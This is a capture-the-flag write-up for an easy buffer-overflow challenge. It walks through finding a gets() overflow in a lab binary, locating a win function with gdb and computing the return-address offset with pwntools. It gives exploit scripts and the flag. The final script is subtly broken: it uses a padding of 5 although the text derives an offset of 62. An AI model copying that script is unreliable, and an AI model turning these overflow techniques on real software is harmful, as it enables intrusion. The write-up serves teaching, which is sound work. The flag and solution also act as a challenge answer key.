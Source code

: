 # Title

## Authors
- @jame

## Category
- Binary Exploitation

## Description
We are overflowing with customers!

`nc pwn.ctf.unswsecurity.com 5002`

## Difficulty
- Easy

## Points
50

## Files
- [office](_ctfd/files/office): binary to exploit

## Solution
<details>
<summary>Spoiler</summary>

### Idea
Using a buffer overflow, you can overwrite the return address and change code flow!

### Walkthrough
As usual, a plug for LiveOverflow is due:
- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)  
  (Shall go into the exploits in MUCH more detail)
  
The exploit is a simple buffer overflow through gets(). So the best way to break the program, is to be reaally excited about that skylight cyber visit

![gets excited kek](writeup-imgs/gets.png)

The easiest way to find the gets, is to run `ltrace` on the execution. Automating the input from before

```bash
python -c "print 'a' * 100" | ltrace ./office
```  
gives us:
![ltrace shenanigans](writeup-imgs/ltrace.png)

as you see, its running gets, which means you can enter as many characters as you want and the program happily writes it into memory (even in places you, the user is not meant to write to)

The idea is that you're meant to "visit" Skylight's Sydney office, which is a 4-byte address to the win function. The best way to see this is to open up the binary in gdb, list all functions using `info functions` command
```
pwndbg> info functions
...
0x080491e6  win
0x08049277  vuln
0x080492ef  main
...
```

The point is that when you write excess input using gets, it filled up the buffer which was meant to store it, and then started overwriting the stack. The program, on executing the return statement, will simply take what's on the top of the stack (since this is where it expects the return address to be) and then jumps to it. If we control this address, we control code flow

Now the only problem is to find the offset to write the address to. The easiest way to do this is to write the address to every offset until it gives you a flag.
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i + pack(0x080491e6)
    
    # open a link to the program and execute
    prog = Popen('./office', stdin=PIPE, stdout=PIPE)
    (res, _) = prog.communicate(test)

    # search for the flag
    if (b"SKYLIGHT" in res):
        print(res)
        break
```
**Note**: The pack function from pwntools converts numbers into little endian format. (google this or watch liveoverflow as to why)


But for the sake of understanding how this works is to enter a large number of unique characters, and find out which character the program redirects execution to. 
something like:
```
python -c "print 'AAAABBBBCCCCDDDD...'" | ./office 
```
we can generate long unique strings using pwntools
```py
from pwn import *
print(cyclic(100))
```
then you run the program using gdb, and enter the string you created
```
gdb ./office
gdb> run
gdb> **enter your string here**
```
We then see that the program tries to return (or jump to) the address `0x61716161`
![pwndbg output](writeup-imgs/pwndbg.png)
_I'm using the pwndbg extension for gdb btw, that's why it looks prettier_

Since we see that the instruction pointer was trying to execute the instruction `aaqa`, we can find the offset for it into the buffer (using pwntools again)
```py
from pwn import *
print(cyclic_find(b'aaqa'))
```
which gives us 62, i.e. it jumps to the address after the 62nd character. So our payload is now:

```py
b'a' * 62 + pack(0x080491e6)
``` 
Putting this in the pwntools script, we get:
```py
from pwn import *
from subprocess import Popen, PIPE

prog = Popen('./office', stdin=PIPE, stdout=PIPE)

payload = b'a' * 5 + pack(0x080491e6)
(res, _) = prog.communicate(payload)
print(res)
```


### Flag
`SKYLIGHT{th1s_i5_n0t_0UR_0FF1ce}`

</details>
